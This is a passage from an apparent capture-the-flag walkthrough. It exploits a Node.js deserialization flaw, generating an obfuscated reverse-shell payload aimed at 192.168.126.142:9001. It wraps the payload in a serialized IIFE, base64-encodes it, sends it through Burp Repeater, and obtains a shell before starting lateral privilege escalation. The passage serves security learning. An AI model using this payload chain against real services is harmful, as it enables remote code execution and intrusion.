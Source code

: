 <br>

`$ python2 nodejsshell.py 192.168.126.142 9001 > payload`
`eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,`
<br><----------SNIP----------><br>
`85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))`

<br><br>

*Serialize payload and add IIFE brackets:*

<br>

`{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,`<br><----------SNIP----------><br>
`41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}`

<br><br>

*Encode in base64:*

<br>

`cat payload | base64`
`eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7IGV2YWwoU3RyaW5nLmZyb21DaGFyQ29kZSgxMCwxMTgsOTcsMTE0LDMyLDExMCwxMDEsMTE2LDMyL`<br><----------SNIP----------><br>
`g0LDQ0LDgwLDc5LDgyLDg0LDQxLDU5LDEwKSl9KCkifQ==`

<br><br>

Deliver through Burpsuite Repeater:

<br>

![Pasted image 20241031231740](https://github.com/user-attachments/assets/a30658d3-9831-4f05-bb67-131031b01167)

<br><br>

And get our reverse shell:

<br>

![Pasted image 20241106152134](https://github.com/user-attachments/assets/4775fe9f-b34e-42d7-885a-355c13f3b7a7)

<br><br>

Once on the box, we have a look at what's going on, so we find out another user *'fireman'*:

<br>

![Pasted image 20241106152928](https://github.com/user-attachments/assets/32e66d1b-3736-4cc7-8856-f0c5b9f35846)

<br>
<br>

At this point, there are two ways to lateral privesc:

<br>
